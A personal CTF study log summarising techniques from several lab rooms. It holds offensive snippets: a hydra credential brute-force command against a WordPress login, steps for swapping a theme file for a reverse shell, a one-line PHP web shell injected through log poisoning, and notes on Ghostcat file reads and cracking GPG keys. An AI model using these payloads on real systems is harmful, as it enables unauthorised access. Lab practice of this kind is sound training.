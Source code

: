 ```yaml
---
title: Weekly Review 1
date: 2023-10-08
categories: [Review]
tags: [hydra, interactiveshell, wordpress, containerescape, logpoisoning]
img_path: /assets/review/
mermaid: true
---
```

> This is an overview of what I learned through the week, mostly things I encountered for the first time or simply wanted to revise.

## [Mr Robot](https://cspanias.github.io/posts/Mr-Robot-Write-Up-(2023)/) 

### Dictionary Attack with hydra

1. Login with random creds and check for login **error message**. 
2. Capture POST request with Burp and get its **params**.
3. Try building a **username list** by using static pass.
4. If user(s) found, try the reverse to **crack pass**. 

 ```shell
 hydra -L [username_list] -p [static_pass] [target-ip] http-post-form "/[login_dir]:log=^USER^&pwd=^PASS^:F=[error message]" -t 30
 ```

### RCE on WordPpress

 1. We need admin acc for accessing Appearance --> **Editor**.
 2. Replance an appropriate, i.e. least used, Editor PHP script with reverse shell code. 

## Interactive terminal with Python

 ```shell
 python -c 'import pty;pty.spawn("/bin/bash");'
 ```

## [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up-(2023)/)
 
### Log Poisoning
 
 1. **NULL Byte** usage: `%00` / `&`.
 2. If a `../` attack is possible in an Apache web server, we can target its **log file**, usually, under `/var/log/apache2/access.log`.
 3. Modify the **User-Agent** of the captured request by replacing it with code accepting commands:
 ```PHP
 <?php system($_GET['c']); ?>
 ```
 4. Now we can execute commands such as `/access.log&ext&c=<command>`, checking the output in the HTTP response.
 5. Run Metasploit's **web delivery** module, and pass the output as command.
   
### Container Escape  
 
 1. Check ```hostname```. 
 2. To break out we need to find a way to launch a reverse shell from the current env (Inception concept).
   
## [Nax](https://cspanias.github.io/posts/Nax-Write-Up-(2023)/)  
   
### Nagios XI  
 
 Boosted Crontab used in DevOps for monitoring and generating alerts when something goes wrong (`/nagiosxi`).
   
### Piet Programming Language  
 
 We can pass it `.ppm` files and get back chars.
 
## [Git Happens](https://cspanias.github.io/posts/Git-Happens-Write-Up-(2023)/)
   
### GitTools  
   
 We can download and manipulate public-facing repos (`/.git`) with GitTools.
   
### Chaining commands
   
 ```shell
 # use " " as delimiter and pick the second field
 cut -d " " -f2
 
 # converts standard input into args to a command
 xargs
 ```
   
## [Tomghost](https://cspanias.github.io/posts/Tomghost-Write-Up-(2023)/)  
   
### Apache Tomcat  
   
 Apache Tomacat is a **web container** that can also be used as an HTTP(S) server. **Ghostcast** is a known vuln: if the *Apache Jserv Protocol (AJP)* is exposed (port 8009), we can read files from Tomcat's dirs. 
   
### GPG Encryption
   
GPG is a file encryption tool. 
```shell
# decrypt file
gpg -d <file.pgp>

# gpg file for John
gpg2john <file.asc> > new_file

# in case we need to pass a key to gpg
gpg --import <file.asc>
```